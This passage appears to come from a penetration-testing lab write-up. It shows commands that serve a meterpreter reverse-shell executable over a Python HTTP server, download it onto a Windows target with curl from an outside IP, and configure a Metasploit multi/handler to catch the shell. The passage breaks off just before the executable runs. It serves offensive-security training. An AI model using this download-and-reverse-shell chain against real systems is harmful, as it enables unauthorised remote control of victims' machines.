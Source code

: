 Next I ran a python http server on my Kali machine from the directory where the meterpreter reverse shell.exe was located:

    python3 -m http.server 17011

![](/images/boykin_lab2/90. python_http.png)

On Target machine 4, I used curl to download the exe, in this case win_the_war.exe

    curl -o win_the_war.exe http://52.12.133.246:17011/win_the_war.exe

![](/images/boykin_lab2/91. curl.png)

Once downloaded successfully, we can kill (Ctrl + c) the python http server.

![](/images/boykin_lab2/92. python_http.png)

Next we fire up msfconsole and set up our multi handler to listen on port 17011 to catch the reverse shell connection.

    msfconsole
    use exploit/multi/handler

![](/images/boykin_lab2/93. msfconsole.png)
![](/images/boykin_lab2/93. msfconsole_2.png)

I have modified my msf prompt from the default to show information I wish to see. Do not worry if yours looks slightly different.

    show options

![](/images/boykin_lab2/94. options.png)

Here we need to set LHOST, LPORT, and also the payload which is defaulting to “generic/shell_reverse_tcp” but needs to be set to a meterpreter one:

    set LHOST 0.0.0.0
    set LPORT 17011
    set payload windows/meterpreter/reverse_tcp

![](/images/boykin_lab2/95. set.png)

Now to confirm the options are set, we show options one more time:

    show options

![](/images/boykin_lab2/96. options.png)

Now we run the handler to start it:

    run

![](/images/boykin_lab2/97. run.png)

Once multi handler is ready, on the Windows target we execute win_the_war.exe, using “start /B".  Using start /B runs our executable in the background so if the program crashes or hangs, it should not disrupt our nc connection:
